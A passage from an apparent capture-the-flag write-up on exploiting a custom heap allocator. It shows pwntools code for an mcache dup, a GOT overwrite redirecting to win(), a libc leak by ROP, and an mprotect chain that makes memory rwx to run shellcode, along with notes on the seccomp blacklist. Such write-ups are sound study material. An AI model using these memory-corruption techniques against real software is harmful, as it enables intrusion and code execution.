  ```python
 add(midxs.bugged, 2, b'') # Get the fake chunk allocated,
 free(2) # free it + the chunk overlapping with the fake chunk
 free(1) # prepare to overwrite freed mchunk metadata such that ->next points to a fake chunk on the mound_arena
 add(midxs.fakechunk, 2, b'overwrite!'.ljust(0x10,b'a') + fake_mcache_entry(sz=999, fd=mound_arena.mcache-0x10))
 add(midxs.overflower, 1, 'hi') # put the fake mound_arena chunk on the mcache
 add(midxs.overflower, 1, fit(mound_data.mcache, context.binary.got['setvbuf'])) # replace mound_arena->top with the GOT
 add(midxs.got_overwriter, 2, pack(context.binary.sym.win)) # overwrite a good function with win() (I use scanf() here)
 ```

And that's how I used an mcache dup without ever noticing _I had an mcache dup_. An exploit method so abstruse, it remains 30x slower than the intended solution after optimisation<sup>5</sup>.

With that mess covered, I can route your attention back to `win()`. 

## Using `win()`

The seccomp filter for this challenge is mildly interesting. Normally, seccomp'd binaries have a _whitelist_ for permitted syscalls, but in this situation, there's only a _blacklist_ against a few. The blacklisted items give pause for thought: both `execve` and `open` are banned, and normally you'd use the former to pop a shell, and the latter for an [open-read-write](https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/) chain.

But before I get ahead of myself, let's talk about how to get to arbitrary syscalls first.

### Moving to rwx

There aren't a lot of gadgets in the main binary, so it might be better to leak libc first.

```python
R = ROP(context.binary)
R.raw(0x48*b'a')
R.puts(context.binary.got['read'])
R.win()
r.sendlineafter(';)\n', R.chain())
context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
```

Once that's done, I can abuse gadgets in libc to convert the `mound_data` memory region into an rwx page:

```python
R = ROP(context.libc)
R.raw(0x48*b'a')
R.mprotect(mound_data.base, 0x400000, 7)
R.call(mound_data.shellcode)
r.sendlineafter(';)\n', R.chain())
```

This only makes sense if `mound_data.shellcode` actually points to an area of user-written shellcode. I handled this by writing shellcode to `mound_data` using `add()`, long before the mcache dup happens:
